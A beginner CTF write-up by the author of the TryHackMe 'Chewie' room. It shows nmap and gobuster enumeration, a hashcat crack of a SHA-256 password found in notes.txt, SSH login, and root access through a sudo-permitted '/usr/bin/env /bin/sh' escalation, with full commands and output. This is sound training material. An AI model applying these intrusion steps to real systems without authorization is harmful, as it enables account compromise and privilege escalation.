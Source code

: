 ```yaml
---
title: Chewie Writeup [TryHackMe]
published: true
---
```


# [](#header)Intro

This is actually my first ever VM i created and i hope it was an enjoyable machine for all of you to try :DD.

I design this room to be easy for beginners and more importantly i hope all of you enjoy.

Okay let's just get into hacking!!

<a href="https://tryhackme.com/room/chewie">
Link to the room
</a>

# [](#header)Enumeration

We start with nmap scan :

### nmap -sC -sV -oN nmap 192.168.100.11

- -sC : Equivalent to --script=default
- -sV : Probe open ports to determine service/version info
- -oN : Output scan in normal

```bash

SStarting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 09:41 WIB
Nmap scan report for 10.10.238.69
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:11:1e:54:86:a6:fc:76:3a:58:cf:34:95:1b:03:de (RSA)
|   256 a9:d0:aa:7f:9d:da:5c:1b:be:1f:03:ed:80:e6:1c:f9 (ECDSA)
|_  256 93:56:b3:e7:21:fa:32:f0:04:49:75:4f:61:0c:68:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Chewwie
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.34 seconds

```

We only have 2 ports open: 80 for Apache and 22 for SSH.

Visiting the webserver we get the following page:

<img src="{{ site.baseurl }}/assets/images/chewie_thm/web_page.png">

We can try to do directory scan with gobuster and add txt extension:

### gobuster dir -u http://192.168.100.11/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt

- dir : Uses directory/file brutceforcing mode
- -w : Path to the wordlist
- -u : To specify the url

```bash

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.69/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/06/18 09:45:16 Starting gobuster
===============================================================
/images (Status: 301)
/notes.txt (Status: 200)
Progress: 5045 / 220561 (2.29%)
```

We found `notes.txt` and inside we found a username and password for ssh.

![](../assets/images/chewie_thm/note.png)

But the password was hashed and we have to crack it. There's a lot of ways of cracking password, but here i will use hashcat to crack the hash:

### hashcat -a 0 -m 1400 '5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0' /opt/wordlist/rockyou.txt

- -a : --attack-mode (0 for Straight mode)
- -m : --hash-type (1400 for sha256)

```bash
Dictionary cache hit:
* Filename..: /opt/wordlist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0:password101

Session..........: hashcat
Status...........: Cracked
Hash.Type........: SHA2-256
Hash.Target......: 5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b...8ac4f0
Time.Started.....: Tue Jun 16 18:39:43 2020 (1 sec)
Time.Estimated...: Tue Jun 16 18:39:44 2020 (0 secs)
Guess.Base.......: File (/opt/wordlist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    76479 H/s (3.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 20480/14344385 (0.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: michael! -> 280789

Started: Tue Jun 16 18:39:01 2020
Stopped: Tue Jun 16 18:39:46 2020
```

A few minutes later the password was CRACKED!!

After that we can ssh to the machine with the user we found and the password we crack:

![](../assets/images/chewie_thm/ssh.png)

We can finally capture the user.txt in current directory:

![](../assets/images/chewie_thm/user.png)

For the root flag, first we can use the command `sudo -l` for listng user's privileges or check a specific command:

```bash
lia@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for lia on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lia may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: /usr/bin/env
```

We can run `/usr/bin/env` as sudo. We can abuse that command to gain privilege as root by typing
<br> `sudo /usr/bin/env /bin/sh` and that's it! We are root :

![](../assets/images/chewie_thm/esc_root.png)

We can finally capture the root.txt in /root directory:

![](../assets/images/chewie_thm/root.png)

And that's it! We root the machine. Hope you guys enjoy reading this writeup.
Thank You :DD
